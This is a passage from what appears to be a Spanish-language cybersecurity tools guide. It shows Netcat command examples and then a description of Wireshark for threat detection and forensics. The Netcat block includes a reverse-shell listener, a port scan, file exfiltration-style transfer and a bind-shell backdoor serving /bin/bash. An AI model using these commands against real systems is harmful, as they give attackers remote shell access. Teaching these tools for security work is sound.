 Estos son algunos ejemplos que puedes realizar con Netcat:
```bash
# Listener para una shell inversa
nc -nlvp 4444

# Conectarse a un puerto remoto
nc -nv 192.168.1.100 80

# Escaneo de puertos
nc -zvn 192.168.1.100 1-1000 2>&1 | grep succeeded

# Transferencia de archivos (Receptor)
nc -l -p 1234 > received_file.txt
# Transferencia de archivos (Emisor)
nc -w 3 192.168.1.100 1234 < file_to_send.txt

# Crear una puerta trasera (solo para fines educativos)
nc -l -p 4444 -e /bin/bash

# Conexiones UDP
nc -u -l -p 1234

# Creación de peticiones HTTP
echo -e "GET / HTTP/1.1\r\nHost: target.com\r\n\r\n" | nc target.com 80
```

### 🦈 Wireshark / Tshark
![wireshark placeholder](./img/wire.jpg)
Esta aplicación es un analizador de protocolos de red gratuito y open source que __captura, inspecciona y analiza el tráfico de datos en tiempo real__. Se utiliza como herramienta primordial para obtener una profunda visión del tráfico de la red, permitiendo a profesionales del área a detectar y analizar amenazas potenciales.
- _Usos de Wireshark en Ciberseguridad_ : Tal como se mencionó anteriormente, se utiliza para __detección de amenazas__ al identificar patrones inusuales o sospechosos, como escaneos de puertos, conexiones inesperadas o intentos de inicio de sesiones fallidos. Tambien realizar un __análisis forense__ al analizar el tráfico posterior a un ataque, tambien permite __analizar malware__ tras infecciones para entender como este se comunico con servidores externos. Por otro lado, realizar __pruebas de vulnerabilidades y auditorías de red__ para confirmar que las politicas de seguridad se esten aplicando correctamente.
